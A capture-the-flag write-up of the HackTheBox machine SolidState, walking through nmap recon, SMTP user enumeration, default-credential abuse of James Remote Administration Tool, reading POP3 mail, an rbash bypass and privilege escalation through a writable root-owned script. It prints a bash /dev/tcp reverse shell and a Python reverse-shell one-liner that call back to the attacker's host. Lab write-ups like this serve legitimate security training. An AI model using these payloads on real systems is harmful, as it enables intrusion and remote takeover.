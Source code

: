 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.51 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/SolidState/assets/1.png">

# Port 25
We'll use a nmap script to enumerate users.
```
nmap --script smtp-enum-users.nse 10.10.10.51 -p 25 -Pn
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/SolidState/assets/2.png">

We find the user ```root```

# Port 4555
James Remote Administration Tool 2.3.2 is running on this port. The pop3 users are being managed within this service and we can change the users password. The default login is ```root:root```.

> Exploit: https://www.exploit-db.com/exploits/35513

We changed the payload so it would create a reverse shell:
```
payload = 'bash -i >& /dev/tcp/10.10.14.5/4445> 0>&1'
```

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/SolidState/assets/3.png">

# Port 110
We change the password for every user to ```test``` and successfully login at the pop3 service. We find a mail which contains a password:
```
telnet 10.10.10.51 110
USER mindy
PASS test
STAT
RETR 2
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/SolidState/assets/4.png">

# Initial Foothold
With the found credentials we can now login using SSH. We end up in an restricted environment:
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/SolidState/assets/5.png">

Logging back in but we 'disable' loading rbash:
```
ssh mindy@10.10.10.51 'bash --noprofile'
```
Now we can download enumeration scripts like linpeas.sh or linenum.sh. Run linenum with thorough scan:
```
bash linenum.sh -t
```
We spot a script that we can edit which is owned by root. We change it contents with a php reverse shell and have a root shell on the host.

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/SolidState/assets/6.png">

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /opt/tmp.py
```
After we wait for a moment we get a shell as root.






